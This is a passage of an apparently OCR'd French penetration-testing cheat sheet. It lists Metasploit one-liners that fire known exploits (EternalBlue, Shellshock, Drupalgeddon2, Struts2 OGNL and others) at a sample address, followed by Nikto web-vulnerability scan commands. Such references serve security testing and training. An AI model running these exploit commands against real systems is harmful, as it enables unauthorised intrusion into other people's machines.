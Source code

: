| 20 | msfconsole -x "use exploit/linux/http/apache_mod_cgi_bash_env_exec; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité Shellshock. |
| 21 | msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité EternalBlue. |
| 22 | msfconsole -x "use exploit/multi/http/struts2_content_type_ognl; set RHOST 192.168.1.1; exploit" | Exploiter l'injection Struts2 Content-Type OGNL. |
| 23 | msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité Drupalgeddon2. |
| 24 | msfconsole -x "use exploit/multi/php/php_cgi_arg_injection; set RHOST 192.168.1.1; exploit" | Exploiter l'injection d'argument PHP CGI. |
| 25 | msfconsole -x "use exploit/windows/browser/ms14_064_ole_code_execution; set RHOST 192.168.1.1; exploit" | Exploiter l'exécution de code MS14-064 OLE. |

## Commandes Nikto

| No. | Commande | Explication |
|-----|----------|-------------|
| 1 | nikto -h http://192.168.1.1 | Scanner les serveurs web pour détecter les vulnérabilités. |
| 2 | nikto -h http://192.168.1.1 -Plugins | Exécuter des plugins spécifiques pour un scan détaillé. |
| 3 | nikto -h http://192.168.1.1 -C all | Scan complet du serveur web avec tous les tests. |
| 4 | nikto -h http://192.168.1.1 -Tuning 1 | Ajuster le scan pour ne vérifier que les fichiers intéressants. |
| 5 | nikto -h http://192.168.1.1 -Format msf+ | Exporter les vulnérabilités vers Metasploit. |
| 6 | nikto -h http://192.168.1.1 -Plugins robots | Vérifier les vulnérabilités de robots.txt. |
| 7 | nikto -h http://192.168.1.1 -Plugins fileupload | Vérifier les vulnérabilités de téléchargement de fichiers. |
| 8 | nikto -h http://192.168.1.1 -Plugins shellshock | Vérifier la vulnérabilité Shellshock. |
| 9 | nikto -h http://192.168.1.1 -Plugins heartbleed | Vérifier la vulnérabilité Heartbleed. |
| 10 | nikto -h http://192.168.1.1 -Plugins poodle | Vérifier la vulnérabilité POODLE. |
| 11 | nikto -h http://192.168.1.1 -output report.html | Générer un rapport de vulnérabilité pour un serveur web. |
| 12 | nikto -h http://192.168.1.1 -Plugins cgi | Vérifier les vulnérabilités CGI. |
| 13 | nikto -h http://192.168.1.1 -Plugins apache | Vérifier les vulnérabilités spécifiques à Apache. |
| 14 | nikto -h http://192.168.1.1 -Plugins iis | Vérifier les vulnérabilités spécifiques à IIS. |
| 15 | nikto -h http://192.168.1.1 -Plugins horde | Vérifier les vulnérabilités spécifiques à Horde. |
| 16 | nikto -h http://192.168.1.1 -Plugins nessus | Vérifier la compatibilité Nessus. |
| 17 | nikto -h http://192.168.1.1 -Plugins php | Vérifier les vulnérabilités spécifiques à PHP. |
| 18 | nikto -h http://192.168.1.1 -Plugins ssl | Vérifier les vulnérabilités spécifiques à SSL/TLS. |
| 19 | nikto -h http://192.168.1.1 -Plugins generic | Exécuter des tests génériques pour les vulnérabilités courantes. |
| 20 | nikto -h http://192.168.1.1 -Plugins msf | Vérifier l'intégration Metasploit. |
| 21 | nikto -h http://192.168.1.1 -Plugins tomcat | Vérifier les vulnérabilités spécifiques à Tomcat. |
